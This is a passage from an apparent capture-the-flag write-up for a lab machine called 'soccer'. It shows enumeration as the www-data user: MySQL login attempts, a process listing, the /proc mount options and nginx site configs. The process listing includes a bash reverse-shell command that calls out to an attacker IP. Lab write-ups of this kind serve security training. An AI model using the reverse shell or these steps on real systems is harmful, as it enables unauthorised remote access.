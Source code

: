 
3306 and 33060 both seem to be MySQL instances:

    
    
    www-data@soccer:/$ mysql -p 3306
    Enter password: 
    ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
    www-data@soccer:/$ mysql -p 33060
    Enter password: 
    ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
    

It’s hard to verify any of this as www-data can only read it’s own processes:

    
    
    www-data@soccer:/$ ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    www-data    1089  0.0  0.1  54080  6176 ?        S    17:28   0:03 nginx: worker process
    www-data    1090  0.0  0.1  54080  6492 ?        S    17:28   0:04 nginx: worker process
    www-data    2385  0.0  0.0   2608   532 ?        S    18:50   0:00 sh -c bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"
    www-data    2386  0.0  0.0   3976  2844 ?        S    18:50   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    www-data    2387  0.0  0.0   4108  3484 ?        S    18:50   0:00 bash -i
    www-data    2389  0.0  0.0   2636  2000 ?        S    18:50   0:00 script /dev/null -c bash
    www-data    2390  0.0  0.0   2608   596 pts/1    Ss   18:50   0:00 sh -c bash
    www-data    2391  0.0  0.0   4108  3596 pts/1    S    18:50   0:00 bash
    www-data    2404  0.0  0.0   5892  2904 pts/1    R+   18:51   0:00 ps auxww
    

That is because `/proc` is mounted with `hidepid=2`:

    
    
    www-data@soccer:/$ mount | grep ^proc
    proc on /proc type proc (rw,nodev,relatime,hidepid=2)
    

#### nginx

There’s nothing else of interest in the system root or `/opt` or `/srv`. I’ll
look at how nginx is configured. There are two site files in
`/etc/nginx/sites-enabled`:

    
    
    www-data@soccer:/etc/nginx/sites-enabled$ ls
    default  soc-player.htb
    

`default `set up the redirect to `soccer.htb`:

    
    
    server {
            listen 80;
            listen [::]:80;
            server_name 0.0.0.0;
            return 301 http://soccer.htb$request_uri;
    }
    